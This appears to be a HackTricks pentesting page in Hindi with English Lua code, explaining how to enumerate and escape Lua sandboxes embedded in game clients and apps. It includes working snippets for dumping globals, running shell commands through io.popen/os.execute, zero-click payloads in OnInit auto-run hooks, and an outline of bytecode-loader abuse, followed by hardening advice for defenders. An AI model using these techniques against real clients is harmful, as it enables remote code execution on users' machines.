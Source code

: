 # Lua sandboxes को बायपास करें (embedded VMs, game clients)

{{#include ../../../banners/hacktricks-training.md}}

यह पृष्ठ उन व्यावहारिक तकनीकों को एकत्रित करता है जो applications में embedded Lua "sandboxes" की सूची बनाने और उनसे बाहर निकलने के लिए उपयोगी होती हैं (विशेषकर game clients, plugins, या in-app scripting engines)। कई engines एक restricted Lua environment एक्सपोज़ करते हैं, लेकिन शक्तिशाली globals को पहुँच में छोड़ देते हैं जो arbitrary command execution या यहाँ तक कि native memory corruption को सक्षम कर सकते हैं जब bytecode loaders एक्सपोज़ होते हैं।

Key ideas:
- VM को एक अज्ञात environment की तरह समझें: _G को enumerate करें और पता लगाएं कि कौन से dangerous primitives पहुँच योग्य हैं।
- जब stdout/print ब्लॉक हों, किसी भी in-VM UI/IPC चैनल को output sink के रूप में दुरुपयोग करके परिणामों का अवलोकन करें।
- यदि io/os एक्सपोज़ हैं, तो अक्सर आपके पास direct command execution होता है (io.popen, os.execute)।
- यदि load/loadstring/loadfile एक्सपोज़ हैं, तो crafted Lua bytecode को execute करने से कुछ versions में memory safety subvert की जा सकती है (≤5.1 verifiers bypassable हैं; 5.2 में verifier हटाया गया था), जिससे advanced exploitation संभव होता है।

## Sandboxed environment को सूचीबद्ध करें

- पहुँच योग्य tables/functions का inventory करने के लिए global environment को dump करें:
```lua
-- Minimal _G dumper for any Lua sandbox with some output primitive `out`
local function dump_globals(out)
out("=== DUMPING _G ===")
for k, v in pairs(_G) do
out(tostring(k) .. " = " .. tostring(v))
end
end
```
- अगर print() उपलब्ध नहीं है, तो in-VM channels का पुन: उपयोग करें। उदाहरण एक MMO housing script VM का है जहाँ chat output केवल sound call के बाद काम करता है; नीचे एक भरोसेमंद output function बनाया गया है:
```lua
-- Build an output channel using in-game primitives
local function ButlerOut(label)
-- Some engines require enabling an audio channel before speaking
H.PlaySound(0, "r[1]") -- quirk: required before H.Say()
return function(msg)
H.Say(label or 1, msg)
end
end

function OnMenu(menuNum)
if menuNum ~= 3 then return end
local out = ButlerOut(1)
dump_globals(out)
end
```
अपने लक्ष्य के लिए इस पैटर्न को सामान्य बनाएं: कोई भी textbox, toast, logger, या UI callback जो strings स्वीकार करता है, reconnaissance के लिए stdout के रूप में कार्य कर सकता है।

## Direct command execution यदि io/os एक्सपोज़ हैं

यदि sandbox अभी भी मानक लाइब्रेरीज़ io या os को एक्सपोज़ करता है, तो संभवतः आपके पास तत्काल command execution है:
```lua
-- Windows example
io.popen("calc.exe")

-- Cross-platform variants depending on exposure
os.execute("/usr/bin/id")
io.popen("/bin/sh -c 'id'")
```
- निष्पादन client process के अंदर होता है; कई anti-cheat/antidebug लेयर्स जो external debuggers को ब्लॉक करती हैं, वे in-VM process creation को रोक नहीं पाएंगी।
- इसके अलावा जाँचें: package.loadlib (arbitrary DLL/.so loading), require with native modules, LuaJIT's ffi (if present), and the debug library (can raise privileges inside the VM).

## Zero-click triggers via auto-run callbacks

यदि host application clients को scripts पुश करता है और VM auto-run hooks (e.g., OnInit/OnLoad/OnEnter) एक्सपोज़ करता है, तो जैसे ही script लोड हो, drive-by compromise के लिए अपना payload वहां रखें:
```lua
function OnInit()
io.popen("calc.exe") -- or any command
end
```
कोई भी समान callback (OnLoad, OnEnter, आदि) इस तकनीक को सामान्यीकृत कर देता है जब scripts क्लाइंट पर स्वचालित रूप से भेजे और execute किए जाते हैं।

## Recon के दौरान खोजने के लिए Dangerous primitives

_G enumeration के दौरान, खासकर इन पर देखें:
- io, os: io.popen, os.execute, file I/O, env access.
- load, loadstring, loadfile, dofile: source या bytecode को execute करता है; untrusted bytecode को लोड करने का समर्थन करता है।
- package, package.loadlib, require: डायनेमिक लाइब्रेरी लोडिंग और मॉड्यूल इंटरफ़ेस।
- debug: setfenv/getfenv (≤5.1), getupvalue/setupvalue, getinfo, and hooks.
- LuaJIT-only: ffi.cdef, ffi.load — native code को सीधे call करने के लिए।

Minimal usage examples (if reachable):
```lua
-- Execute source/bytecode
local f = load("return 1+1")
print(f()) -- 2

-- loadstring is alias of load for strings in 5.1
local bc = string.dump(function() return 0x1337 end)
local g = loadstring(bc) -- in 5.1 may run precompiled bytecode
print(g())

-- Load native library symbol (if allowed)
local mylib = package.loadlib("./libfoo.so", "luaopen_foo")
local foo = mylib()
```
## वैकल्पिक उन्नयन: Lua bytecode loaders का दुरुपयोग

जब load/loadstring/loadfile पहुँच योग्य हों लेकिन io/os प्रतिबंधित हों, तब निर्मित Lua bytecode का निष्पादन memory disclosure और corruption primitives को जन्म दे सकता है। मुख्य तथ्य:
- Lua ≤ 5.1 में एक bytecode verifier शिप किया गया था जिसमें ज्ञात bypasses मौजूद हैं।
- Lua 5.2 ने verifier को पूरी तरह हटा दिया (official stance: applications should just reject precompiled chunks), जिससे attack surface बढ़ता है अगर bytecode loading निषिद्ध नहीं किया गया हो।
- सामान्य रूप से: leak pointers via in-VM output, craft bytecode to create type confusions (e.g., around FORLOOP or other opcodes), फिर pivot कर arbitrary read/write या native code execution पर।

यह रास्ता engine/संस्करण-विशिष्ट है और RE की आवश्यकता होती है। गहरी जानकारी, exploitation primitives, और गेम्स में उदाहरण gadgetry के लिए references देखें।

## पहचान और हार्डनिंग नोट्स (रक्षकों के लिए)

- Server side: user scripts को reject या rewrite करें; सुरक्षित APIs को allowlist करें; io, os, load/loadstring/loadfile/dofile, package.loadlib, debug, ffi को strip या bind-empty करें।
- Client side: Lua को minimal _ENV के साथ चलाएं, bytecode loading को निषिद्ध करें, एक strict bytecode verifier या signature checks पुनः लागू करें, और client process से process creation को ब्लॉक करें।
- Telemetry: gameclient → child process creation पर अलर्ट करें जो script load के तुरंत बाद हो; इसे UI/chat/script events के साथ correlate करें।

## References

- [This House is Haunted: a decade old RCE in the AION client (housing Lua VM)](https://appsec.space/posts/aion-housing-exploit/)
- [Bytecode Breakdown: Unraveling Factorio's Lua Security Flaws](https://memorycorruption.net/posts/rce-lua-factorio/)
- [lua-l (2009): Discussion on dropping the bytecode verifier](https://web.archive.org/web/20230308193701/https://lua-users.org/lists/lua-l/2009-03/msg00039.html)
- [Exploiting Lua 5.1 bytecode (gist with verifier bypasses/notes)](https://gist.github.com/ulidtko/51b8671260db79da64d193e41d7e7d16)

{{#include ../../../banners/hacktricks-training.md}}
